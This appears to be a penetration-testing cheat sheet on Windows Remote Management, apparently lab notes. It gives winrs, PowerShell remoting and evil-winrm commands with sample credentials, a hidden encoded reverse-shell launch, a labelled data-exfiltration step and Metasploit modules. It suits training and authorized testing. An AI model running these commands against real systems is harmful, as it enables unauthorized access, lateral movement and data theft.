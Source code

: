 # Windows Remote Management (WinRM)

WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

TCP port 5985 and 5986 (HTTPS)

- <https://en.wikipedia.org/wiki/WS-Management>


Is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems on the internet.
- Manage and configure Windows systems remotely.

WinRM implements access control and security for communication between systems through various forms of authentication.


*For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.*










## WinRM
```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
# Output:
FILES04
corp\jen
```


To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with a base64 encoded reverse-shell.

```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e [ENCODED SHELL]"
```


PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format.
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID:
```
Enter-PSSession 1
whoami
hostname
# Output:
corp\jen
FILES04
```





















## Evil-Winrm

- <https://github.com/Hackplayers/evil-winrm>

We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.



```
evil-winrm -i [TARGET IP] -u [USERNAME] -p [PASSWORD]
evil-winrm -i 10.129.136.91 -u administrator -p badminton


> menu



# Upload and download files
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "source" -d "dest"
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "source" -d "dest"


# Script execution
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "powershell_script.ps1"



# Lateral movement
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -smb <TARGET_IP> -h <HASH>


# Data exfiltration
Compress-Archive -Path "data_directory" -DestinationPath "exfiltrated_data.zip"

evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "exfiltrated_data.zip" -d "dest"


```


























## MSF

auxiliary/scanner/winrm/winrm_auth_methods
auxiliary/scanner/winrm/winrm_login
auxiliary/scanner/winrm/winrm_cmd

exploit/windows/winrm/winrm_script_exec
	set FORCE_VBS true